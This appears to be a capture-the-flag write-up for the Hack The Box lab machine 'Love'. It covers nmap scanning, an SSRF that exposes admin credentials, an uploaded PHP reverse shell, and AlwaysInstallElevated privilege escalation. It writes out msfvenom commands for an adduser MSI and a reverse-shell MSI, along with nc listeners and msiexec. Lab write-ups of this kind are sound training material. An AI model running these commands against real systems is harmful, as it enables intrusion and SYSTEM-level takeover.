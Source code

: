 # Love

## Scanning 

`sudo nmap -sC -sV -oN nmap/initial 10.10.10.239 -v`

* `staging.love.htb/organizationName=ValentineCorp/`

* Gobuster

![image](https://user-images.githubusercontent.com/12052283/127886977-ba4f12c2-82ff-4b80-9a12-99f6da03adf0.png)


### Open ports

```
Discovered open port 139/tcp on 10.10.10.239
Discovered open port 443/tcp on 10.10.10.239
445/tcp microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
80/tcp Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
Discovered open port 135/tcp on 10.10.10.239
3306/tcp mysql?
5000/tcp  www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Users

```
admin:@LoveIsInTheAir!!!! -> creds of http://love.htb/admin/
Phoebe -> user from Windows Machine
```


## Endpoints

```
http://www.love.htb/home.php
http://staging.love.htb
```


## Vuln


```
SSRF

No filter in upload photo thats why i could upload a php rev shell
```

## Getting root

* Got root while abusing `AlwaysInstallElevated`

## Notes

* Found `staging.love.htb/organizationName=ValentineCorp/` in nmap scan. So I edited `/etc/hosts` with `10.10.10.239 love.htb staging.love.htb` and got navigated to `http://staging.love.htb`

![image](https://user-images.githubusercontent.com/12052283/127888286-773176b1-af4e-489a-8fb1-1a0f23e63aa0.png)

* Pressing in `demo` got to a free file scanner so I tried SSRF. Doing `http://localhost:5000` got creds for `http://love.htb/admin/`. Port 5000 because in nmap is saying 403 forbiden so I assumed I could SSRF so the server thinks the requests is internaly made and like that I have permission

![image](https://user-images.githubusercontent.com/12052283/127890660-ab17ab40-2028-454c-aae3-a4929d700f79.png)

* Creating user to get shell using php reverse shell for windows and connected as phoebe

![image](https://user-images.githubusercontent.com/12052283/127893881-931eb776-eba2-4ad5-80c8-f14d822ecefa.png)

* Login with that user while listening on port 9999 using `sudo nc -lvnp 9999`

![image](https://user-images.githubusercontent.com/12052283/127894003-a1d24536-4164-45cc-8d21-750eb4c1612d.png)

* Got shell when login

![image](https://user-images.githubusercontent.com/12052283/127894210-a990a6fc-4c02-45dd-9d2b-cf3797809e3c.png)

* Got creds in C:\xampp\passwords.txt

![image](https://user-images.githubusercontent.com/12052283/127894537-270d6781-2e21-4893-b1bf-121686f7323c.png)

* Got `user.txt` in C:\Users\Phoebe\Desktop\user.txt

* Runned winPEAS and found AlwaysInstallElevated ON

* Running `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated` and `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated` returned `1` meaning users of any privilege can install (execute) *.msi* files as NT AUTHORITY\SYSTEM

* I could create a metasploit payload using `msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o alwe.msi` and then executing that `alwe.msi` on the windows machine and user `rottenadmin` is NT AUTHORITY\SYSTEM , then i only needed to change from user `Phoebe` to user `rottenadmin`

* But the best way to escalate is to create a reverse shell using `msfvenom -p windows/x64/shell_reverse_tcp LHOST=MY_IP LPORT=MY_LISTENING_PORT -f msi -o reverse.msi`, upload `reverse.msi` to the windows machine, start listening on my local machine using `sudo nc -lvnp MY_LISTENING_PORT` and then, inside the windows machine, run `msiexec /quiet /qn /i reverse.msi` to trigger the reverse shell. After that I got root in the reverse shell.

 ![image](https://user-images.githubusercontent.com/12052283/127909554-97ebbdfc-8d22-46b3-9689-dfe9b2f07923.png)


# References

* https://portswigger.net/web-security/ssrf

* https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery

* https://ed4m4s.blog/privilege-escalation/windows/always-install-elevated